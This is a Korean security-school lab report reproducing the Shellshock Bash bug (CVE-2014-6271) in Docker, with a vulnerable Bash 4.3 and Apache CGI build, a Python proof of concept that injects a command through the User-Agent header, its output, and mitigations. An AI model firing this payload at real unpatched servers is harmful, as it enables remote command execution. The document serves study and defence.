

# CVE-2014-6271 Shellshock 취약점 재현 보고서

이름: 배준영_0103
소속: 화이트햇스쿨 4기 3반

## 1. 취약점 요약

CVE-2014-6271은 **Shellshock**이라고 불리는 Bash 취약점이다.

이 취약점은 Bash가 환경변수에 들어 있는 함수 정의를 처리할 때 발생한다.
공격자가 특수하게 만든 값을 환경변수에 넣으면, Bash가 그 뒤에 붙은 명령어까지 실행할 수 있다.

본 실습에서는 Apache CGI 환경에서 취약한 Bash를 실행하도록 구성하였다.
그리고 HTTP 요청의 `User-Agent` 헤더에 악성 값을 넣어 서버에서 명령어가 실행되는지 확인하였다.

실습 목표는 다음과 같다.

```text
취약한 Bash 환경 구성
→ Apache CGI를 통해 Bash 실행
→ 악성 User-Agent 헤더 전송
→ 서버에서 id 명령어 실행 여부 확인
```

---

## 2. 환경 구성

본 실습은 Docker Compose를 이용하여 구성하였다.

사용한 환경은 다음과 같다.

```text
취약점 번호: CVE-2014-6271
취약점 이름: Shellshock
대상 프로그램: GNU Bash
취약 버전: Bash 4.3
웹 서버: Apache HTTP Server
실행 방식: CGI
PoC 실행 방식: Python
```

본 실습 환경은 특정 CPU 아키텍처에 고정하지 않았다.
따라서 Docker가 실행 환경에 맞는 이미지를 자동으로 선택한다.

```text
Intel / AMD 환경 → amd64 이미지 사용
ARM 환경 → arm64 이미지 사용
```

---

## 3. 파일 및 디렉터리 구조

폴더 구조는 다음과 같다.

```text
Shellshock/
└── CVE-2014-6271/
    ├── Dockerfile
    ├── docker-compose.yml
    ├── README.md
    ├── poc/
    │   ├── Dockerfile
    │   └── poc.py
    └── img01.png
```

각 파일의 역할은 다음과 같다.

```text
Dockerfile:
취약한 Bash 4.3과 Apache CGI 환경을 만드는 파일이다.

docker-compose.yml:
취약 서버 컨테이너와 PoC 컨테이너를 함께 실행하는 파일이다.

README.md:
취약점 설명, 환경 구성, 재현 절차, PoC 코드, 실행 결과, 대응 방안을 정리한 보고서이다.

poc/Dockerfile:
PoC 코드를 실행할 Python 컨테이너를 만드는 파일이다.

poc/poc.py:
Shellshock 취약점이 실제로 동작하는지 확인하는 PoC 코드이다.

```

---

## 4. 취약 조건

CVE-2014-6271 취약점이 재현되기 위한 조건은 다음과 같다.

```text
1. Bash가 취약한 버전이어야 한다.
2. Apache CGI 기능이 활성화되어 있어야 한다.
3. CGI 스크립트가 취약한 Bash로 실행되어야 한다.
4. HTTP 요청 헤더 값이 CGI 환경변수로 전달되어야 한다.
5. Bash가 환경변수를 처리하는 과정에서 명령어가 실행되어야 한다.
```

본 실습에서는 `victim.cgi` 파일이 취약한 Bash로 실행되도록 설정하였다.

```bash
#!/usr/local/bin/vuln-bash
```

HTTP 요청의 `User-Agent` 값은 CGI 환경에서 환경변수로 전달된다.
이때 취약한 Bash가 해당 값을 처리하면서 Shellshock 취약점이 발생할 수 있다.

---

## 5. Dockerfile

다음은 취약 서버를 구성하는 `Dockerfile`이다.

```dockerfile
FROM debian:bookworm-slim

ARG BASH_VERSION=4.3

RUN apt-get update && apt-get install -y --no-install-recommends \
    apache2 \
    build-essential \
    wget \
    ca-certificates \
    curl \
    && rm -rf /var/lib/apt/lists/*

# Vulnerable Bash 4.3 build
RUN wget -q https://ftp.gnu.org/gnu/bash/bash-${BASH_VERSION}.tar.gz -O /tmp/bash.tar.gz \
    && tar -xzf /tmp/bash.tar.gz -C /tmp \
    && cd /tmp/bash-${BASH_VERSION} \
    && ./configure --prefix=/usr/local/vulnbash \
    && make -j"$(nproc)" \
    && make install \
    && ln -sf /usr/local/vulnbash/bin/bash /usr/local/bin/vuln-bash \
    && rm -rf /tmp/bash-${BASH_VERSION} /tmp/bash.tar.gz

# Enable CGI module
RUN a2enmod cgid

# CGI script executed by vulnerable Bash
RUN cat > /usr/lib/cgi-bin/victim.cgi <<'EOF'
#!/usr/local/bin/vuln-bash
echo "Content-Type: text/plain"
echo
echo "This is a vulnerable CGI script."
EOF

RUN chmod +x /usr/lib/cgi-bin/victim.cgi

# Basic web page
RUN echo "CVE-2014-6271 Shellshock vulnerable environment" > /var/www/html/index.html

RUN echo "ServerName localhost" >> /etc/apache2/apache2.conf

EXPOSE 80

CMD ["apachectl", "-D", "FOREGROUND"]
```

이 파일에서는 취약한 Bash 4.3을 직접 빌드한다.
그리고 Apache의 CGI 기능을 활성화한 뒤, 취약한 Bash로 실행되는 `victim.cgi` 파일을 생성한다.

---

## 6. docker-compose.yml

다음은 전체 실습 환경을 실행하는 `docker-compose.yml` 파일이다.

```yaml
services:
  web:
    build:
      context: .
    container_name: cve-2014-6271-web
    ports:
      - "8080:80"
    healthcheck:
      test: ["CMD-SHELL", "curl -fsS http://localhost/cgi-bin/victim.cgi > /dev/null || exit 1"]
      interval: 3s
      timeout: 2s
      retries: 20
      start_period: 5s

  poc:
    build:
      context: ./poc
    container_name: cve-2014-6271-poc
    depends_on:
      web:
        condition: service_healthy
    volumes:
      - ./result:/result
```

이 파일은 두 개의 컨테이너를 실행한다.

```text
web:
취약한 Apache CGI 서버 컨테이너

poc:
Shellshock PoC를 실행하는 컨테이너
```

`web` 컨테이너가 정상적으로 실행된 뒤 `poc` 컨테이너가 실행된다.
이를 통해 `docker compose up --build` 명령어 한 번으로 취약 환경 구성과 PoC 실행을 함께 수행할 수 있다.

---

## 7. PoC 컨테이너 Dockerfile

다음은 `poc/Dockerfile` 파일이다.

```dockerfile
FROM python:3.11-slim

COPY poc.py /poc.py

ENTRYPOINT ["python3", "/poc.py"]
```

이 파일은 Python 기반 PoC 실행 환경을 구성한다.
컨테이너가 실행되면 자동으로 `poc.py`가 실행된다.

---

## 8. PoC 코드

다음은 `poc/poc.py` 파일이다.

```python
import sys
import urllib.request
import urllib.error

TARGET = "http://web/cgi-bin/victim.cgi"

PAYLOAD = "() { :;}; echo Content-Type: text/plain; echo; echo VULNERABLE_CVE_2014_6271; /usr/bin/id"

print("[*] CVE-2014-6271 Shellshock PoC started")
print(f"[*] Target: {TARGET}")
print("[*] Sending malicious User-Agent header")
print()

try:
    request = urllib.request.Request(
        TARGET,
        headers={
            "User-Agent": PAYLOAD
        }
    )

    with urllib.request.urlopen(request, timeout=10) as response:
        body = response.read().decode("utf-8", errors="replace")

    print(body)

    print()
    print("[*] Checking result...")

    if "VULNERABLE_CVE_2014_6271" in body and "uid=" in body:
        print("[+] SUCCESS: CVE-2014-6271 Shellshock reproduced.")
        print("[+] Command execution confirmed through CGI environment variable.")
        sys.exit(0)
    else:
        print("[-] FAILED: vulnerability was not reproduced.")
        sys.exit(1)

except urllib.error.URLError as e:
    print(f"[-] Request failed: {e}")
    sys.exit(1)
except Exception as e:
    print(f"[-] Error: {e}")
    sys.exit(1)
```

PoC의 핵심 부분은 다음 코드이다.

```python
PAYLOAD = "() { :;}; echo Content-Type: text/plain; echo; echo VULNERABLE_CVE_2014_6271; /usr/bin/id"
```

이 값은 HTTP 요청의 `User-Agent` 헤더에 들어간다.
취약한 Bash가 이 값을 처리하면 `/usr/bin/id` 명령어가 실행된다.

`id` 명령어는 현재 명령어가 어떤 사용자 권한으로 실행되었는지 보여준다.
따라서 응답 결과에 `uid=`가 출력되면 명령어 실행에 성공한 것이다.

---

## 9. 재현 절차

먼저 실습 디렉터리로 이동한다.

```bash
cd Shellshock/CVE-2014-6271
```

다음 명령어를 실행한다.

```bash
docker compose up --build --exit-code-from poc
```

Ubuntu에서 Docker 권한 오류가 발생하는 경우에는 `sudo`를 붙여 실행한다.

```bash
sudo docker compose up --build --exit-code-from poc
```

위 명령어를 실행하면 다음 과정이 자동으로 진행된다.

```text
1. 취약한 Bash 4.3을 포함한 Apache 서버 이미지가 빌드된다.
2. Apache CGI 서버 컨테이너가 실행된다.
3. 서버 상태 확인이 끝나면 PoC 컨테이너가 실행된다.
4. PoC 컨테이너가 악성 User-Agent 헤더를 전송한다.
5. 서버에서 id 명령어가 실행되는지 확인한다.
```

실습이 끝난 후 컨테이너를 정리하려면 다음 명령어를 실행한다.

```bash
docker compose down -v
```

권한 오류가 발생하는 경우에는 다음과 같이 실행한다.

```bash
sudo docker compose down -v
```

---

## 10. 실행 결과



PoC가 성공하면 다음과 비슷한 결과가 출력된다.

```text
[*] CVE-2014-6271 Shellshock PoC started
[*] Target: http://web/cgi-bin/victim.cgi
[*] Sending malicious User-Agent header

VULNERABLE_CVE_2014_6271
uid=33(www-data) gid=33(www-data) groups=33(www-data)
This is a vulnerable CGI script.

[*] Checking result...
[+] SUCCESS: CVE-2014-6271 Shellshock reproduced.
[+] Command execution confirmed through CGI environment variable.
```

위 결과에서 중요한 부분은 다음과 같다.

```text
VULNERABLE_CVE_2014_6271
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

`VULNERABLE_CVE_2014_6271` 문자열이 출력되었고, `uid=33(www-data)` 결과가 출력되었다.

이는 PoC에서 보낸 명령어가 서버에서 실행되었다는 의미이다.
따라서 CVE-2014-6271 Shellshock 취약점 재현에 성공한 것으로 볼 수 있다.

---

## 11. 대응 방안

CVE-2014-6271 취약점에 대한 대응 방안은 다음과 같다.

### 1. Bash 업데이트

취약한 Bash 버전을 사용하지 않고, 보안 패치가 적용된 최신 버전으로 업데이트해야 한다.

```text
취약 버전 사용 금지
보안 패치 적용
최신 버전 유지
```

### 2. CGI 사용 최소화

Apache CGI는 HTTP 요청 값을 환경변수로 전달할 수 있다.
따라서 CGI 기능이 꼭 필요하지 않다면 비활성화하는 것이 좋다.

```text
CGI 기능 비활성화
불필요한 CGI 스크립트 제거
```

### 3. 외부 입력값 검증

`User-Agent`, `Referer` 같은 HTTP 헤더 값은 공격자가 조작할 수 있다.
따라서 외부에서 들어오는 값을 그대로 신뢰하면 안 된다.

```text
HTTP 헤더 값 검증
외부 입력값 필터링
```

### 4. 최소 권한 실행

웹 서버는 가능한 낮은 권한의 사용자로 실행해야 한다.
취약점이 발생하더라도 피해 범위를 줄이기 위해서이다.

```text
웹 서버 최소 권한 실행
불필요한 권한 제거
```

정리하면 가장 중요한 대응 방법은 다음과 같다.

```text
1. Bash 최신 버전 업데이트
2. CGI 기능 비활성화 또는 사용 최소화
3. 외부 입력값 검증
4. 웹 서버 최소 권한 실행
5. 보안 패치 주기적 적용
```

---

## 12. 결론

본 실습에서는 Docker Compose를 이용하여 CVE-2014-6271 Shellshock 취약 환경을 구성하였다.

취약한 Bash 4.3과 Apache CGI 환경을 만들고, Python 기반 PoC 컨테이너를 통해 악성 `User-Agent` 헤더를 전송하였다.

그 결과 서버에서 `/usr/bin/id` 명령어가 실행되었고, `uid=33(www-data)` 결과가 출력되었다.

이를 통해 Shellshock 취약점이 CGI 환경에서 원격 명령 실행으로 이어질 수 있음을 확인하였다.

본 실습에서는 플랫폼을 강제로 고정하지 않았다.
따라서 Docker가 실행 환경에 맞는 이미지를 자동으로 선택하여 ARM 환경과 AMD64 환경 모두에서 재현 가능성을 높일 수 있도록 구성하였다.
